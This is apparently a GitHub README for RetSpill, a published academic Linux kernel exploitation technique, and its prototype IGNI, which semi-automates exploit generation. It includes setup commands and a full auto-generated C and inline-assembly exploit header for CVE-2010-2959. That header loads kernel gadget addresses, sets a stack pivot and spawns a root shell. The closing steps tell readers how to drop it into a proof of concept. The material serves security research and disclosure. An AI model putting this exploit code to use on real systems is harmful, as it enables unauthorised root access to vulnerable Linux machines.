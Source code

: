 # RetSpill

RetSpill is a Linux kernel exploitation technique.

It uses the fact that there are already user-controllable data readily on the kernel stack when attackers obtain CFHP (control-flow hijacking primitive).
Since the kernel stack for a specific thread (task) is shared, attackers can spill controlled data on the kernel stack before hand, and use stack shifting gadgets to redirect the control-flow (when CFHP is obtained) to the controlled region to launch code-reuse attack.

Using clever downstream usage of this fact, a CFHP can be turned into unlimited arbitrary read/write/execute without sacrificing the exploit reliability for heap-based vulnerability. This is because we can overwrite the function pointer on heap with a stack-shifting gadget, and invoke the function pointer again and again in different task-context. Most importantly, in each invocation, the payload on stack can be different, leading to invoking different payload without manipulating the heap, thus without introducing exploit reliability degradation.

In this work, we demonstrate that this technique is so simple that it can be semi-automated with our prototype, IGNI.

This repository contains the dataset we used in the paper and our research prototype IGNI.

# Paper

We describe our findings in the full paper

[__RetSpill: Igniting User-Controlled Data to Burn Away Linux Kernel Protections__](https://dl.acm.org/doi/abs/10.1145/3576915.3623220)

Kyle Zeng, Zhenpeng Lin, Kangjie Lu, Xinyu Xing, Ruoyu Wang, Adam Doupé, Yan Shoshitaishvili, and Tiffany Bao

*In Proceedings of ACM CCS Nov 2023,*
```
@inproceedings{zeng2023retspill,
  author = {Zeng, Kyle and Lin, Zhenpeng and Lu, Kangjie and Xing, Xinyu and Wang, Ruoyu and Doup\'{e}, Adam and Shoshitaishvili, Yan and Bao, Tiffany},
  title = {RetSpill: Igniting User-Controlled Data to Burn Away Linux Kernel Protections},
  year = {2023},
  isbn = {9798400700507},
  publisher = {Association for Computing Machinery},
  address = {New York, NY, USA},
  url = {https://doi-org.ezproxy1.lib.asu.edu/10.1145/3576915.3623220},
  doi = {10.1145/3576915.3623220},
  booktitle = {Proceedings of the 2023 ACM SIGSAC Conference on Computer and Communications Security},
  pages = {3093–3107},
  numpages = {15},
  keywords = {os security, privilege escalation, kernel exploitation},
  location = {, Copenhagen, Denmark, },
  series = {CCS '23}
}
```

# IGNI

The name is a reference to a magical sign, [Igni](https://witcher.fandom.com/wiki/Igni), in the video game [Witcher 3: Wild Hunt](https://witcher.fandom.com/wiki/Igni#The_Witcher_3:_Wild_Hunt).
Igni can cast a burst of flame to enemies and and set enemies on fire if they are spilled with flammable substances, just like userspace input ;).

## Setup

## Method 1: Use Docker
Follow Method2-step3 to build the file system image and then run
~~~
docker build -t retspill .
~~~
to build the docker image.
Then run
~~~
docker run --privileged -it --rm retspill bash
~~~
to play with IGNI.
Notice that `privileged` is necessary because we want to run qemu inside docker with kvm acceleration.

## Method 2: Build from source

### Step 1: Install Dependencies
Install rust as instructed by its [official website](https://www.rust-lang.org/tools/install).
~~~
cargo install ropr
~~~

### Step 2: Build QEMU
Igni uses QEMU v7.2.0 internally and it has to be v7.2.0. QEMU with version lower or higher than v7.2.0 has issues reconnecting to gdb after snapshot restoration.
~~~
git clone -b v7.2.0 --depth 1 https://git.qemu.org/git/qemu.git
mkdir qemu/build && cd qemu/build && ../configure --target-list=x86_64-softmmu --python=`which python3` --disable-debug-info --enable-slirp && make -j`nproc`
~~~

### Step 3: Build File System Image
~~~
cd scripts/create-image/ && ./create-image.sh && cd ../..
~~~

## Sample Usage
Run the following command, where `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc` is a proof-of-concept binary that will crash the kernel at `PC==0xffffffffdeadbeef`.
~~~
python3 analyzer.py -k <retspill>/exploit_env/CVEs/CVE-2010-2959/kernel/arch/x86/boot/bzImage -e <retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc
~~~
After about 5-10 minutes, the system will output something like the following:
~~~
unsigned long pivot = 0xffffffff8194609e;
==============================================================
/******************************************************************/
/*************************AUTO GENERATED***************************/
#define _GNU_SOURCE
#ifndef va_start
#include <stdarg.h>
#endif
#ifndef assert
#include <assert.h>
#endif
#ifndef signal
#include <signal.h>
#endif
#ifndef sched_setaffinity
#include <sched.h>
#endif

// we need this because rcx may not be restored in the trampoline
// so it will crash during kernel-user switch
void get_shell(int signum) {
    printf("uid: %d\n", getuid());
    system("/bin/sh");
    while(1);
}

void __attribute__((constructor)) _igni_init() {
    signal(SIGSEGV, get_shell);
    signal(SIGTRAP, get_shell);
}

unsigned long _args[6];
unsigned long _arg_num = 0;
void __trigger()
{
    
    __asm__(".intel_syntax noprefix;"
            "push rbp;"

            "mov rcx, %0;"
            "mov rdi, [rcx+8*0];"
            "mov rsi, [rcx+8*1];"
            "mov rdx, [rcx+8*2];"
            "mov r10, [rcx+8*3];"
            "mov r8, [rcx+8*4];"
            "mov r9, [rcx+8*5];"

                        "mov rbx, 0xffffffff81e001bb;"
                        "mov rbp, 0xffffffff8244ab00;"
                        "mov r12, 0xffffffff810d0ad0;"
                        "mov r13, 0xffffffff81a373ec;"
                        "mov r10, 0xffffffff81c00162;"
            
            "mov rax, 16;"
            "syscall;"
            "pop rbp;"
            ".att_syntax;"
            : : "r"(_args));
}

void _trigger(int num_args, ...)
{
    va_list ap;
    va_start(ap, num_args);
    for(int i=0; i<num_args; i++) {
        _args[_arg_num++] = va_arg(ap, unsigned long);
    }
    va_arg(ap, unsigned long);
    va_end(ap);

    __asm__(".intel_syntax noprefix;"
            "call __trigger;"
            ".att_syntax;");
    _arg_num = 0;
    if(getuid() == 0) get_shell(0);
}

#define NUMARGS(...)  (sizeof((unsigned long[]){__VA_ARGS__})/sizeof(unsigned long))
#define ignite(...) _trigger(NUMARGS(__VA_ARGS__), __VA_ARGS__ )
/*************************AUTO GENERATED***************************/
/******************************************************************/
~~~

All you need to do is to:
1. include the generated header file
2. hijack the kernel control-flow to `unsigned long pivot = 0xffffffff8194609e;`
3. change how you invoke the triggering system call to `ignite(...)`
Then you can enjoy your root shell!!!

A sample result can be found at `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/exp.c` (the original is poc.c)
